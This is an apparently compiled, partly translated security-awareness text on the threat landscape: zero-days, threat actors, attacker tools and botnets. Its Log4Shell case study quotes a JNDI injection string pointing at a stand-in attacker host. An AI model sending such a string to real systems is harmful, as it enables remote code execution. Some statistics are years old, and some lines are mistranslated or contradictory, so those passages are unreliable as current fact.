## Chapter 1: Introduction to the Modern Threat Landscape and Digital Ecosystem Realities

This introductory section will establish the basic concepts necessary to understand the detailed actor profiles that follow. It will define what an APT means in the modern context and address the confusing landscape of threat actor naming conventions, which is a key challenge for practitioners.

### 1.1. The Predator-Prey Relationship on the Web

Whether it is a commercial or non-profit enterprise, it seems logical for every business to understand that building a secure organization is crucial for long-term success. When a business implements and maintains a strong security posture, it can enjoy numerous advantages. A secure organization can use its security program as a marketing tool, demonstrating to its customers how much it values their business and the extent of its commitment to protecting their information. Most importantly, however, a secure organization will not have to spend time and money detecting security breaches and responding to the consequences of those breaches.


Information Security

Once you establish an active Web presence, you put a target on your company's back. Like the unfortunate insect caught in a spider's web, the size of your company determines the extent of disruption you create on the Web and how quickly you get noticed by the bad guys. How attractive you are as prey is often directly proportional to what you can offer a predator. If your business is an e-commerce site that thrives on credit cards or other financial information, or a company with valuable secrets to steal, your attractiveness quotient increases; You have more value to steal. And if your business is new and your presence on the Web is new, it can be assumed that perhaps you are not yet versed in the intricacies of cyber warfare and therefore more vulnerable to an attack.

Unfortunately, most of those who want to infiltrate your network defenses are trained, motivated, and highly intelligent at developing faster and more effective methods to sneak around your environment by checking for the smallest vulnerabilities. Most IT professionals know that a business's firewall is constantly probed for weaknesses and vulnerabilities by attackers from all corners of the world. Anyone who follows software-related news understands that seemingly every few months, news breaks about a new, exploitable vulnerability in an operating system or application. It is widely known that even the most knowledgeable network administrator or programmer writing the software cannot find and close all the vulnerabilities in today's increasingly complex software.

Errors exist in applications, operating systems, server processes (daemons), and clients. System configurations can also be exploited, such as not changing the default administrator password or accepting default system settings, or unintentionally leaving a gaping hole by configuring the machine to run in an unsecured mode. Even the Transmission Control Protocol/Internet Protocol (TCP/IP), the foundation on which all Internet traffic runs, can be exploited because the protocol was designed before the threat of hacking was truly widespread. Therefore, it contains design flaws that could, for example, allow a hacker to easily change IP data.

When word gets out (and there will be) that there is a new exploitable vulnerability in an application, crackers around the world start scanning sites on the internet, looking for any sites that have the vulnerability in question.

The fact that many vulnerabilities in your network can be caused by your employees makes your job even more difficult. Casual browsing of porn sites can expose the network to all kinds of nasty bugs and malicious code just by an employee visiting the site. The problem is, for users this may not seem like that big of a deal. They either don't realize or don't care that they're leaving the network open to intrusions.

### 1.2. Protocols and Code Flaws

Let's take a closer look at the barriers that make building a secure organization difficult.

Security is inherently troublesome, and the more robust the security mechanisms, the more cumbersome the process becomes. Employees in an organization have a job to do; they want to get straight to work. Most security mechanisms, from passwords to multi-factor authentication, are perceived as obstacles to productivity. One of the current trends in security is adding full-disk encryption to laptops. Although this is a highly recommended security process, it adds a second login step before a computer user can actually start working. Even if this step adds only one minute to the login process, it results in approximately four hours of lost productivity over the course of a year.

To fully understand the frustration caused by security measures, we only need to observe the Transportation Security Administration (TSA) security lines at any airport. Simply watch the frustration when a specific item is run through the scanner for a third time while a passenger is late to board their flight. Security implementations rely on a sliding scale; one end of the scale represents total security and complete inconvenience, while the other end represents total insecurity and complete ease of use. When we implement any security mechanism, it must be placed on the scale where the level of security and ease of use matches the acceptable level of risk for the organization.

#### Powerful and Complex Computers

Home computers have become repositories of personal data. Our computers now contain wedding videos, scanned family photos, music libraries, movie collections, and financial and health information. Because computers contain such familiar information and have integrated deeply into daily life, we have forgotten how powerful and complex these devices actually are. Not too long ago, computers as powerful as our current desktops and laptops would fill one or more large rooms. Additionally, today's computers present a 'user-friendly' interface to the world.


The ENIAC Computer

Most people do not know how computers actually work and what goes on behind the scenes. Elements such as the Windows Registry, ports, and services are completely unknown to most users and are not sufficiently understood by many computer professionals. For example, many people still believe that a Windows login password protects the data on the computer. On the contrary, someone can extract the hard drive from the computer, plug it into another computer as a secondary drive, or place it in a USB drive enclosure, and all the data will be easily accessible.

#### Uninformed Computer Users

Many computer users believe they 'know everything about computers' simply because they are skilled at creating spreadsheets (like Excel), word processing documents (like Word), and presentations (like PowerPoint)—in short, using office productivity applications.

These 'Power Users' have progressed beyond application basics, yet many of them still do not understand even fundamental security concepts. Many users will casually install software and visit suspicious websites, despite the fact that these actions may violate company policies. The 'bad guys'—individuals who want to steal information from or cause damage to computer systems—have also identified that the end user is a weak link in the security chain.


End User Risk

As companies invest more money in their perimeter defenses, attackers have begun to seek the path of least resistance. They send malicious software as email attachments, asking recipients to open them. Despite being instructed not to open attachments from unknown senders—or simply not to open attachments at all—employees repeatedly violate this policy, causing havoc on their networks.


Phishing

Phishing scams have been highly effective in convincing individuals to hand over personal online banking and credit card information. Why should an attacker struggle to bypass an organization's defenses when end users are all too willing to hand over the keys to their accounts? Addressing the threat posed by untrained and careless end users is a crucial part of any security program.

#### Computers Built Without Security in Mind

During the development of personal computers (PCs), security was never a consideration. The earliest PCs were very simple devices with limited processing power, no keyboards, and programmed by flipping a series of switches. They were developed almost as novelty items. Even as they became more advanced and complex, all efforts focused on increasing capabilities and functionality; no one anticipated that security issues would arise. To understand why security was not a concern back then, we only need to look at some of the early computers, such as Berkeley Enterprises' Geniac, Heathkit EC-1, or the MITS Altair 8800. The development of computers was focused on what they could do, not how they could be attacked!


*ENIAC (1945) — the first electronic programmable computer was designed without any security consideration; this legacy is the structural root of modern system vulnerabilities.*


MITS Altair 8800—The First Personal Computer

When computers began to connect with one another, the primary goal was not to protect information, but to provide the ability to share it. The internet was initially designed for military applications, but it eventually moved to colleges and universities, where the core principle was information sharing.

#### The Current Trend is Sharing, Not Protecting

Even now, despite stories of compromised data, people still want to share their data with everyone. Web-based applications make this easier than attaching a file to an email. Social networking platforms like Meta provide the capability to share materials: 'Send messages, files, links, and events to your friends. Build a network of friends and share things. Free and easy.'

In addition, many online data storage sites, such as DropSend and FilesAnywhere, facilitate file sharing. These sites can allow private data to leave an organization by bypassing security mechanisms.

#### Data Accessible From Everywhere

As if employees' desire to share data did not pose enough of a threat to private information, many business professionals want to access data from wherever they are working, using a variety of devices. To remain productive, employees now demand access to data and communication details on their laptops, desktops, home computers, and mobile devices. Consequently, information technology (IT) departments must now provide the ability to sync data across numerous devices. If the IT department cannot or will not provide this capability, employees have the power to take matters into their own hands.

The online storage sites mentioned previously can be accessed from home, the office, or anywhere with an internet connection. While it is possible to block access to some of these sites, blocking all of them is virtually impossible. Some may appear quite harmless. For many, Google's free email service, Gmail, is an excellent tool that offers robust service at no cost. Few realize that Gmail provides storage space that can be used not just for email, but also for storing files. Today, the risk is compounded by **Shadow IT**: employees upload sensitive corporate data into personal ChatGPT/LLM accounts without corporate oversight; uncontrolled OneDrive and Google Drive shares move corporate data beyond the company's visibility; and unsanctioned SaaS integrations create pathways for inadvertent data leakage. The ease with which data can be transferred outside of a company's control makes securing an organization's data far more challenging.


*Official corporate network vs. Shadow IT (Shadow IT) pathways — uncontrolled channels are the leading source of data leakage.*

#### Security is Not About Hardware and Software

Many businesses believe that if they purchase enough equipment, they can build a secure infrastructure. Firewalls, intrusion detection systems, antivirus software, and two-factor authentication products are just a few of the tools that help protect a network and its data. It is important to bear in mind that no single product or combination of products will create a secure organization on its own. Security is a process; there is no tool that you can 'set and forget.' All security products are only as secure as the people who configure and maintain them. The purchase and implementation of security products should only represent a percentage of the security budget. Employees tasked with maintaining security devices must be provided with sufficient time, training, and equipment to properly support the products. Unfortunately, in many organizations, security activities fall behind support activities. Highly skilled security professionals are often assigned to helpdesk projects, such as resetting forgotten passwords, fixing jammed printers, and setting up workstations for new employees.

#### Management Views Security as a Burden on Profitability

For most organizations, the cost of establishing a strong security posture is viewed as a necessary evil, similar to purchasing insurance. Organizations do not want to spend money on it, but the risks of not doing so outweigh the costs. Because of this attitude, building a secure organization is extremely difficult. This mindset arises because requests for security tools are usually supported by documentation showing the average cost of a security incident, rather than demonstrating the more tangible benefits of a strong security posture.


The Cost of Breaches

The fact that IT professionals and management speak different languages further deepens the problem. IT professionals generally focus on technology, period. Management, however, focuses on revenue. Concepts such as profitability, asset depreciation, return on investment (ROI), execution, and total cost of ownership (TCO) are the cornerstones of management. These are foreign concepts to most IT professionals.

To be realistic, while it would be helpful for management to take steps to learn some IT basics, IT professionals must take the initiative and learn some fundamental business concepts. Learning these concepts is beneficial for the organization because technical infrastructure can be implemented in a cost-effective manner, and it is beneficial for the career development of IT professionals.

A Google search for 'business skills for IT professionals' will bring up numerous training programs that can be helpful. For those who do not have the time or inclination to attend a class, some very useful materials can be found online.

Whichever approach is taken, it is important to remember that when requesting new security products, tools, or policies, any tangible cost savings or revenue generation must be leveraged. Security professionals often overlook the value of keeping web portals open for employees. A database used by sales staff to enter contracts or purchases, or to check inventory, will help generate more revenue if there is no downtime. An inaccessible or hacked database is useless for generating revenue.

Strong security can be used to gain a competitive advantage in the market. Having secure systems accessible 24/7 means an organization can reach and communicate with its customers and prospects more efficiently. An organization recognized as a good guardian of customer records and information can make its security record part of its brand. This is no different from a car company being known for its safety record. For example, in discussions of cars and safety, Volvo is always the first manufacturer mentioned.

The goal of any discussion with management is to convince them that having a secure network and infrastructure in the highly technical and interconnected world we live in is an 'indisputable requirement of doing business.' An excellent resource that can provide insights into these issues for both IT professionals and managers is CERT's technical report titled Governing for Enterprise Security. <https://insights.sei.cmu.edu/documents/344/2007_019_001_54375.pdf>


The unchecked complexity of modern computers and enterprise software inevitably leaves behind exploitable code errors. When these errors are weaponized into "Zero-Day" vulnerabilities, a relentless race against time begins for every actor in the digital ecosystem.

### 1.3. N-Days and the Zero-Day Paradox


<div style="background: rgba(59, 130, 246, 0.05); border-left: 4px solid #3b82f6; padding: 15px; margin: 20px 0; border-radius: 6px;">
  <strong style="color: #3b82f6; font-size: 1.1em;">🔍 Case Study: CVE-2021-44228 (Log4Shell)</strong>
  <p style="margin: 8px 0 0 0; font-size: 0.95em; line-height: 1.5; color: #9ca3af;">
    <strong>Type:</strong> Remote Code Execution (RCE) / Log4j Library Vulnerability<br/>
    <strong>Impact:</strong> One of the most critical vulnerabilities in internet history. It allowed attackers to execute remote code with full privileges by simply sending a single log string (e.g. <code>${jndi:ldap://attacker.com/a}</code>). It is the ultimate example of the danger of the Zero-Day window.
  </p>
</div>


*Log4Shell (CVE-2021-44228) — anatomy of the JNDI injection vulnerability in the Java application logging library.*


In this article, I will talk about how a cyber defense strategy can be developed against zero-day attacks, which are generally accepted to be difficult to detect and prevent. Of course, we cannot wait empty-handed against the zero-day attacks that many institutions suffer from. What kind of defense infrastructure do we need to establish? Let's have a little discussion.

First, let's understand what exactly zero-day attacks and vulnerabilities are and why they are difficult to detect.

**Vulnerability** generally refers to a vulnerability that exists in a system, network, software or hardware and allows malicious actors to attack or exploit it. Such vulnerabilities can compromise the security of a system and lead to data theft, unauthorized access or service interruption.

**Zero-Day Attacks** are attacks that exploit yet undiscovered or unreported vulnerabilities in the software or hardware components of the computer system. These vulnerabilities and vulnerabilities are exploited by attackers as soon as they are detected, causing the attacked party to be caught off guard.


So why are they defenseless? No matter how much attention the organization pays to its vulnerability management processes, it cannot manage a security vulnerability that it is not aware of. The working logic of many products used for vulnerability management is aimed at detecting and eliminating known vulnerabilities. Therefore, it is not possible to fix a vulnerability that has not yet been discovered.

The process of eliminating newly discovered vulnerabilities takes some time. If the provider of the platform where the vulnerability was discovered issues a patch, a certain amount of time is required until the institution closes the vulnerability by making the necessary updates with this patch. During this time, the institution becomes vulnerable to this vulnerability.


As soon as the vulnerability is published, the attackers take action, leaving institutions vulnerable. They detect institutions with vulnerable platforms through platforms such as Shodan and try to carry out their attacks before the vulnerability is corrected.

So, will institutions really be defenseless against these attacks? Will he wait with his hands tied? Of course not. So what kind of defense strategy is required? Now let's talk about this.

---




## Chapter 2: Know Your Enemy: Anatomy and Motivations of Threat Actors

A Network Attack is an unauthorized entry into a computer in your organization or an address within your assigned domain. Intrusion can be passive (infiltration stealthily and undetected) or active (in which changes to network resources are affected). Intrusions can come from outside or inside your network structure (an employee, customer or business partner). Some intrusions are just to let you know that the intruder is there, defacing your website with various messages or vulgar images. Others are more malicious, attempting to obtain critical information on a one-off basis or as an ongoing parasitic affair that will continue to siphon data until discovered. Some intruders attempt to inject elaborate code to crack passwords, record keystrokes, or impersonate your site to redirect unsuspecting users to their site. Others embed themselves in the network and constantly silently extract data or replace public Web pages with various messages.


*Threat actor types — from lone individuals to state-sponsored advanced persistent threat groups.*

An attacker can enter your system physically (by gaining physical access to a restricted machine and its hard drive and/or BIOS), externally (by attacking your Web servers or finding a way to bypass your firewall), or internally (by your own users, customers, or partners)

So how often do these intrusions occur? The numbers are staggering: Modern reports from Verizon DBIR and Akamai show that attacks targeting web applications and APIs have grown more than 33% year-over-year. Billions of corporate credentials are leaked to dark web marketplaces annually, and attacker dwell times — the window during which threat actors move freely within compromised networks before detection — can stretch into weeks or even months.

In one case, the credit and debit card information of more than 45 million users was stolen from a large merchant in 2005, and the data of a further 130,000 people was stolen in 2006. Sellers reported that this loss would cost them an estimated $5 million.

Spam remains one of the biggest problems facing businesses today and is increasing steadily every year. Modern botnet networks now encompass millions of "zombie" devices, while AI-driven campaigns can generate thousands of personalized phishing messages within minutes. Cybercrime groups such as FIN7 and Scattered Spider have reached operational maturity that rivals legitimate enterprises, running industrial-scale data theft and ransomware operations.

Malware use is also steadily increasing, with "nearly 60% of all malware-infected URLs" coming from the US and China, according to research by Secure Computing. Web-related attacks will become more common, with political and financial attacks being at the top of the list. Secure Computing's research estimates that with the increasing availability of Web attack toolkits, "approximately half of all Web-borne attacks are likely to be hosted on compromised legitimate Web sites."

Whatever the purpose of the intrusion–entertainment, greed, bragging rights, or data theft–the result is the same: a weakness in your network security has been identified and exploited. And unless you discover this weakness, the point of intrusion, it will remain an open door into your environment. So, who is out there trying to get into your network?

Today, crackers are armed with an increasingly sophisticated and well-stocked set of tools to do what they do. Just like professional thieves with their custom-made picks, crackers today can acquire an intimidating array of tools to secretly test vulnerabilities in your network. These tools range from simple password-stealing malware and keystroke loggers to methods of injecting sophisticated parasite strings that copy data streams from customers seeking to conduct e-commerce transactions with your company. Some of the more commonly used tools include:

* Wireless sniffers, these devices not only detect the location of wireless signals within a certain range, but can also sniff out data transmitted through the signals. With the increasing popularity and use of remote wireless devices, this practice is increasingly responsible for the loss of critical data and poses a significant headache for IT departments.
* Once packet sniffers are inserted into a network data stream, they passively analyze data packets entering and exiting a network interface and utilities capture data packets passing through a network interface.
* Port scanners are a good analogy for these tools, obviouslyIt is a thief watching the neighborhood looking for an unlocked door. These tools send consecutive, sequential connection requests to the target system's ports to see which ones are responding to the request or are open. Some port scanners allow an attacker to slow down the port scanning rate — sending connection requests over a longer period of time — so that the intrusion attempt is less likely to be detected. The usual targets for these devices are old, forgotten "back doors" or ports that were accidentally left unprotected after network changes.
* Port knocking, sometimes network administrators create a secret backdoor method to bypass firewall-protected ports — a secret knock that gives them quick access to the network. Port knocking tools find these unprotected ports and insert a Trojan horse that listens to network traffic for evidence of this sneak peek.
* Keystroke loggers, these are spyware programs that are placed on vulnerable systems and record the user's keystrokes. Frankly, if someone can sit back and record every keystroke a user makes, it wouldn't take long to obtain things like usernames, passwords, and ID numbers.
* Remote administration tools are programs that are placed on an unsuspecting user's system and allow the hacker to take control of that system.
* Network scanners investigate networks to see the number and type of host systems on a network, the services available, the host's operating system, and the type of packet filtering or firewalls used.
* Password crackers, these sniff networks for data streams associated with passwords and then use brute force to peel away the layers of encryption that protect those passwords.

As mentioned before, your company's mere presence on the Web puts a target on your back. It's only a matter of time before you encounter the first attack. This could be something as seemingly innocent as a few failed login attempts, or it could be something as obvious as an attacker defacing your Web site or bringing down your network. It's important to go into this job knowing you're vulnerable.

Hackers will first look for known weaknesses in your operating system (OS) or the applications you use. They then start looking for holes, open ports, or forgotten backdoors, which are bugs in your security posture that can be quickly or easily exploited.

Probably one of the most common signs of an intrusion — whether attempted or successful — are repeated signs that someone is trying to exploit your organization's own security systems, and the tools you use to monitor suspicious network activity can actually be used against you quite effectively. Tools such as network security and file integrity scanners can be invaluable in helping you make ongoing assessments of your network's vulnerability and can also be used by hackers looking for a way in.

A large number of failed login attempts is also a good indication that your system has been targeted. The best penetration testing tools can be configured with interference thresholds that, when exceeded, will trigger an alert. They can passively distinguish between legitimate and suspicious activity of a recurring nature, monitor time intervals between activity (alerting when the number exceeds a threshold you specify), and create a database of signatures seen multiple times over a period of time.

The "human element" (your users) is a constant factor in your network operations. Users often enter the wrong answer, but they usually correct the mistake on the next try. However, a series of misspelled commands or incorrect login responses (along with attempts to recover or reuse them) can be a sign of brute force attack attempts.

Packet inconsistencies–direction (incoming or outgoing), source address or location, and session characteristics (incoming sessions and outgoing sessions)–can also be good indicators of an attack. If a packet has an unusual source or is directed to an abnormal port (for example, an inconsistent service request), this may be a sign of a random system scan. Packets with local network addresses coming from outside and requesting service inside may be a sign of IP spoofing.

Sometimes strange or unexpected system behavior is a sign in itself. Although this is sometimes difficult to keep track of, you should be aware of events such as changes in system clocks, servers shutting down or server processes inexplicably stopping (via attempts to restart the system), system resource issues (such as unusually high CPU activity or overflows in file systems), audit logs behaving in strange ways (reducing in size without administrative intervention), or unexpected user access to resources. Heavy system usage (possible DoS attack) or CPU usage (brute force password cracking attempts) should always be investigated if you notice unusual activity at regular times on certain days.

### 2.1. Terminology Confusion: Hackers vs. Crackers


<div style="background: rgba(245, 158, 11, 0.05); border-left: 4px solid #f59e0b; padding: 15px; margin: 20px 0; border-radius: 6px;">
  <strong style="color: #f59e0b; font-size: 1.1em;">⚖️ Comparison Card: Hacker vs. Cracker</strong>
  <table style="width: 100%; border-collapse: collapse; margin-top: 10px; font-size: 0.9em; color: #9ca3af;">
    <thead>
      <tr style="border-bottom: 1px solid rgba(245, 158, 11, 0.2);">
        <th style="text-align: left; padding: 6px; color: #f59e0b;">Feature</th>
        <th style="text-align: left; padding: 6px;">Hacker</th>
        <th style="text-align: left; padding: 6px;">Cracker</th>
      </tr>
    </thead>
    <tbody>
      <tr style="border-bottom: 1px solid rgba(255,255,255,0.05);">
        <td style="padding: 6px; font-weight: bold; color: #f3f4f6;">Core Purpose</td>
        <td style="padding: 6px;">Build, understand, and improve systems.</td>
        <td style="padding: 6px; color: #f87171;">Break systems, steal data, and cause damage.</td>
      </tr>
      <tr>
        <td style="padding: 6px; font-weight: bold; color: #f3f4f6;">Motivation</td>
        <td style="padding: 6px;">Curiosity, knowledge acquisition, cyber resilience.</td>
        <td style="padding: 6px;">Financial gain, espionage, sabotage, or prestige.</td>
      </tr>
    </tbody>
  </table>
</div>


A community of people who are experts in programming and computer networks and who excel at solving complex problems has existed since the early days of computing. The origin of the term hacker goes back to the members of this culture, and they are quick to point out that it is hackers who set up and run the Internet and created the Unix operating system. Hackers see themselves as members of a community that builds things and makes them work. And the term cracker is a badge of honor for those in their culture.

If you ask a traditional hacker about people who sneak into computer systems to steal data or cause damage, they will most likely correct you by saying that these people are not real hackers. (The term used for these types in the hacker community is cracker, and these two labels are not synonymous). Therefore, to avoid offending traditional hackers, I will use the term cracker and focus on them and their efforts.

From the lone wolf cracker looking to gain the admiration of his peers, to the disgruntled ex-employee seeking revenge, or the deep pockets and seemingly limitless resources of a hostile government determined to take down wealthy capitalists, crackers are out to find the chink in your system's defensive armor.

A cracker's specialty — or, in some cases, his mission in life — is to seek out and exploit the vulnerabilities of an individual computer or network for his own purposes. Crackers' intentions are normally malicious and/or criminal. They have a vast library of knowledge designed to help them hone their tactics, skills and knowledge, and can draw on the almost limitless experience of other crackers through a community of like-minded individuals who share knowledge through underground networks.

They often begin this life by learning the most basic of skills: software programming. The ability to write code that can make a computer do what you want is seductive in itself. As they learn more about programming, they expand their knowledge of operating systems and, as a natural progression, their weaknesses. They also quickly learned that they needed to learn HTML to expand the scope and type of their illegal business.They swindle — the code allows them to create fake Web pages that lure unsuspecting users into revealing sensitive financial or personal data.

These new breakers have extensive underground organizations they can turn to for information. They hold meetings, write articles, and develop tools that they pass on to each other. Each new acquaintance they make strengthens their skills and trains them to move into increasingly sophisticated techniques. Once they reach a certain level of proficiency, they start their trade in earnest.

They start by researching potential target companies on the Internet (an invaluable source of all kinds of information about the corporate network). Once a target is identified, they can quietly sneak around, searching for old forgotten backdoors and operating system vulnerabilities. They can start simply and harmlessly by running basic DNS queries that can provide IP addresses (or IP address ranges) as a starting point to launch an attack. They can sit back and listen for incoming and/or outgoing traffic, log IP addresses, and test for vulnerabilities by pinging various devices or users.

They may secretly plant password cracking or logging applications, keystroke loggers, or other malware designed to keep their unauthorized connections alive and profitable.

Cracker wants to act like a cyber-ninja, sneaking up and infiltrating your network without leaving a trace. Some more experienced crackers may put multiple layers of mostly compromised machines between themselves and your network to hide their activities. Like standing in a room full of mirrors, the attack seems to come from so many places that you can't tell reality from ghost. And before you know what they're doing, they're gone like smoke in the wind.




### 2.2. From Script Kiddies to Professional "Cybercrime Corporations"

Once, a hacker was typically depicted as a lone teenager with poor social skills, breaking into systems for little more than bragging rights. However, as e-commerce evolved, the profile of hackers changed as well.

Now that there are vast collections of credit card numbers and intellectual property to harvest, organized hacker groups have formed to operate as businesses. Today, cybercrime organizations operate with the sophistication of legitimate corporations: groups like FIN7, Scattered Spider, and Lazarus Group maintain hierarchical structures complete with HR functions, technical divisions, and even customer support units for ransomware victims. Forget about individual hackers or hacker groups with shared goals. What you and your company need to worry about are hierarchical cybercrime organizations, where each cybercriminal has their own role and reward system.


*WannaCry ransomware attack flow — from unpatched EternalBlue vulnerability to cryptocurrency extortion.*

In an era where organizations are attacked by highly motivated and skilled hacker groups, building a secure infrastructure has become imperative.

### 2.3. The Botnet Epidemic and Zombie Computers

A new and particularly virulent threat that has emerged in the last few years is one in which a virus is secretly implanted into a large number of unprotected computers (usually those located in homes), hijacking them (without their owners' knowledge) and turning them into slaves to do the hacker's bidding. These compromised computers, known as bots, connect to large and often untraceable networks called botnets. Botnets are designed to work so that instructions come from a central computer and are quickly shared among other botted computers on the network. Newer botnets now use a "peer-to-peer" method, making detection difficult, if not impossible, by law enforcement because they lack a central identifiable control point. And because they often cross international borders into countries that lack the means (or will) to investigate and shut them down, they can grow at an alarming rate. They can be so lucrative that they have now become a tool of choice for hackers.


*Core botnet structure — zombie computers are orchestrated through a Command & Control (C&C) server.*

Botnets exist largely due to the number of users who do not comply with the basic principles of computer security (installed and/or up-to-date antivirus software, regular scans for suspicious codes, etc.) and thus become unwitting accomplices. Once compromised and "botted," their machines are turned into conduits through which large volumes of unwanted spam or malicious code can be rapidly distributed. Current estimates suggest that 40% of the 800 million computers on the Internet are being used by bots controlled by cyberthieves to spread new viruses, send unsolicited spam e-mail, crash Web sites with denial-of-service (DoS) attacks, or siphon sensitive user data from banking or shopping Web sites that look and behave like legitimate sites where customers have previously done business.

It's such a widespread problem that botnet attacks rose from an estimated 300,000 per day in August 2006 to over 7 million per day a year later, with more than 90% of those sent being spam emails, according to a report published by security firm Damballa. Even worse for e-commerce sites, there is a growing trend in which a site's operators are threatened with DoS attacks unless they pay protection money to a cyber extortionist. Those who refuse to negotiate with these terrorists see their sites fall prey to relentless rounds of cyber "carpet bombing."

